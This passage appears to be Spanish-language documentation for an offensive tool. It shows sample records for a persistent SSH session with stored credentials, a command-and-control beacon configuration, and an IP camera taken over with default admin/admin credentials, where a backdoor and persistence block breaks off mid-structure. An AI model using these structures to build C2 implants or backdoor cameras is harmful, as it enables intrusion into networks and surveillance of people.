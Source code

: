 ### Conexión Remota
```python
{
    'host': '192.168.1.100',
    'type': 'ssh',
    'port': 22,
    'username': 'svc_192_168_1_100',
    'password': 'P@ssw0rd_100!',
    'persistent': True,
    'auto_reconnect': True,
    'timestamp': 1640995200.0
}
```

### Apuntador C2
```python
{
    'host': '192.168.1.100',
    'c2_server': '192.168.1.200',
    'c2_port': 8080,
    'checkin_interval': 300,
    'method': 'http_post',
    'encrypted': True,
    'timestamp': 1640995200.0
}
```

### Cámara Accedida (Implementación Real)
```python
{
    'host': '192.168.1.1',
    'port': 80,
    'protocol': 'http',
    'camera_type': 'generic_ip_camera',
    'credentials': {
        'username': 'admin',
        'password': 'admin'
    },
    'camera_info': {
        'model': 'unknown',
        'firmware': 'unknown',
        'resolution': 'unknown',
        'features': [],
        'capabilities': []
    },
    'screenshots': [],
    'video_file': null,
    'backdoor_info': {
        'type': 'camera_backdoor',
        'camera_type': 'generic_ip_camera',
        'host': '192.168.1.1',
        'port': 80,
        'credentials': {
            'username': 'admin',
            'password': 'admin'
        },
        'backdoor_methods': [],
        'persistent_access': [
            {
                'method': 'persistence_script',
```